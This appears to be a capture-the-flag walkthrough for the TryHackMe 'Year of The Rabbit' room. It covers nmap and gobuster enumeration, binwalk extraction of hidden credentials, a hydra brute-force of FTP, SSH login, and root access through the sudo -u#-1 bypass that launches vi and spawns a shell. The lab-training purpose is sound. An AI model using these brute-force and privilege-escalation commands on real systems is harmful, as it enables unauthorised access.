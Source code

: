 # Year of The Rabbit
    ~ https://tryhackme.com/room/yearoftherabbit

* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")
*  ### Do follow this page through out the line to void confusion.

<br>

 ![rabbit intro](https://user-images.githubusercontent.com/112984045/200450627-fcc3ffa8-4e3c-4bde-9530-2cdb6acfbf7b.png)
~ the IP will be given once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![rabbit nmap](https://user-images.githubusercontent.com/112984045/200450896-f5d9f661-a182-4d23-a6bd-ac86ea7ebce7.png)
 <br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shy.bu9/portscanner)
![rabbit portscanner](https://user-images.githubusercontent.com/112984045/200451032-97c2aa8e-2ace-4a73-8c87-d8280bfd5bee.png)<br>
 ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 3
 * PORT NUMBERS : 21,22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 21 : ftp
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 * As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 
 <br>
 
 ```bash
 gobuster dir -u http://10.10.118.215/ --no-error -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o commongobu.txt
 ```
 ![rabbit gobuster](https://user-images.githubusercontent.com/112984045/200460412-5d6f4312-86ab-4372-805f-7875f79515a0.png)
 <br>
 
 ```bash
 http://<IP>/assets/
 ```
 ![rabbit assets](https://user-images.githubusercontent.com/112984045/200452670-15edf2c8-84b6-4285-8e6b-897f3983ab95.png)
 <br>
 
```bash
http://<IP>/assets/style.css
```
![rabbit assets css](https://user-images.githubusercontent.com/112984045/200698012-0eaba1c0-3685-4bab-80dc-45f8d3b7c629.png)
<br>

```bash
http://<IP>/< directory name in style.css >
```
` use the burp.. to check the response.`
![rabbit burp](https://user-images.githubusercontent.com/112984045/200702406-47239f73-313c-4ad4-8b47-85ee21b0b63d.png)
<br>

```bash
http://<ip>/< hidden directory name found in burp response >
```
![rabbit wexy](https://user-images.githubusercontent.com/112984045/200703653-2c5b4901-690a-4074-8aaa-bf80b340d397.png)
<br>

` copy the hot_bae image link and use the command :`
```bash
wget < link of image >
```
![rabbit wget](https://user-images.githubusercontent.com/112984045/200704376-4cd96a1f-c1cc-4678-ab41-28fe2391697d.png)
<br>

```bash
binwalk Hot_Babe.png 
```
```bash
sudo binwalk -e Hot_Babe.png --run-as=root
```
![rabbit binwalk](https://user-images.githubusercontent.com/112984045/200704812-9f351144-17c9-4001-acee-49013321a323.png)
<br>

```bash
cd _Hot_Babe.png.extracted
```
<br>

` use external web to extract the files in 36.zlib`[web](https://filext.com/file-extension/ZLIB)
![rabbit zlib extract](https://user-images.githubusercontent.com/112984045/200705317-7736006e-7870-40b1-b56b-9e52983bdabf.png)
<br>

```bash
hydra -l < username extracted > -P < list of passwords extracted > ftp://<IP>
```
` don't forget remove spaces from the password list`
![rabbit hydra ftp](https://user-images.githubusercontent.com/112984045/200705605-f4b8f8c1-ae57-4ce1-89cf-87aa30af85b5.png)
<br>

```bash
ftp <IP>
```
![rabbit ftplogin](https://user-images.githubusercontent.com/112984045/200706000-512cd4b9-0773-46c3-b4bc-93dd6b340b72.png)
<br>

```bash
get Eli's_Creds.txt
```
<br>

` terminate the ftp connection using ctrl+d `

` the code in Eli's_Creds.txt was a brainfuck programming language which is really good at its name `
* use [web](https://www.tutorialspoint.com/execute_brainfk_online.php) to execute the program.

![rabbit brainfuck](https://user-images.githubusercontent.com/112984045/200707694-ce3ff23b-2b5a-42f1-9292-81eea695481c.png)
<br>

```bash
ssh <username from brainfuck execution>@<IP>
```
![rabbit ssh login](https://user-images.githubusercontent.com/112984045/200711363-8062ba83-b659-4c0c-92b5-3f1302550815.png)
<br>

` look at the msg given to gwendoline from root. His is talking about a file 's3cr3t'.` <br>
` move to home directory and search for s3cr3t`
```bash
locate s3cr3t
```
![rabbit ssh secret](https://user-images.githubusercontent.com/112984045/200848335-8d3529c5-945b-4c0a-80b1-54a491112433.png)
<br>

```bash
su gwendoline
```
`look for user.txt and submit the flag`
![rabbit usrflag](https://user-images.githubusercontent.com/112984045/200849217-99aec744-f0a5-4196-b468-af46f3fe5bb8.png)
<br>

## PRIVILEGE ESCALATION

```bash
sudo -l
```
* the user gwendoline has rights to execute vi command but not as root.
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
* use the command `:!/bin/bash` in the editor.
![rabbit root](https://user-images.githubusercontent.com/112984045/200851195-4b9b99f2-97a8-4558-ac5d-c84d3ad346de.png)

### ` do submit the flag to complete the task`

<br>

### FOR ANY DOUBTS OR SUGGESTIONS DO WRITE TO shy.bu9@gmail.com
